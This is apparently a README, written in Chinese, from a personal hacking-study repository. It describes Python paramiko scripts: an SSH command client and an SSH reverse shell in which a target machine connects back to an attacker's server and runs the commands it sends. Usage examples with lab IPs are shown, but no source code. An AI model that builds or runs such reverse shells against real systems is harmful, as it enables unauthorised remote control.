 # SSH通信
`pip install paramiko`

`paramiko`基于`pycrypto`开发的第三方库


# ssh_cmd.py ssh命令执行client
## 流程
- `paramiko`编写SSH client
- 连接SSH，执行命令

## Example:
```
Username:ssff
Password: 
Entry server ip:192.168.199.129
Enter port:22
Entry command:whoami
----OUTPUT----
root
```

# ssh 类反弹shell程序
## 攻击机
`ssh_server.py`启动ssh服务，等待靶机连接，向靶机发送命令执行
### Example:
```
┌──(root💀ssff)-[~/python_hacker_study/python_ssh]
└─# python3 ssh_server.py 
[+] Listening for connection ...
[+] Authenticated!
b'ClientConnected'
Enter command:ls
README.md
ssh_cmd.py
ssh_rcmd.py
ssh_server.py
test_rsa.key

Enter command:

```

## 靶机
`ssh_rcmd.py`连接攻击机ssh服务，接收攻击机命令
### Example:
```
(venv) python_ssh ➤ python3 ssh_rcmd.py                                                                       git:main*
Username:ssr
Password:
Entry server ip:192.168.199.129
Enter port:2222
Welcome to ssh
```
## KEY
`test_rsa.key` 官方github的示例文件